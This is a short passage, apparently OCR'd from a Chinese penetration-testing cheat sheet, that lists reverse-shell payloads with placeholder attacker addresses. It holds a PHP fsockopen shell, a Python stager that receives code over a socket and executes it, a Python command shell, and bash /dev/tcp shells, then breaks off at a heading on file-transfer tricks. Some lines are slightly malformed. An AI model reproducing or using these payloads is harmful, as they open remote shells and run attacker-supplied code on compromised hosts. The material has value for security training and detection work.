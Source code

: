 ```
```

### php payload

```php
1.<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

#### python payload

```python
1.
import socket,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM)
		s.connect(('x.x.x.x',xx))
		break
	except:
		time.sleep(5)
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})
2.
import socket
import subprocess
s=socket.socket()
s.connect(("xx.xx.xx.xx",xx))
while 1:
	p = subprocess.Popen(s.recv(1024), shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin=subprocess.PIPE)
	s.send(p.stdout.read() + p.stderr.read())
3.
```

#### 1.Bash-payload 

```bash
bash i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1 
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5; done
```

## 文件传输技巧

### 	搭建Http Server

#### 	Python
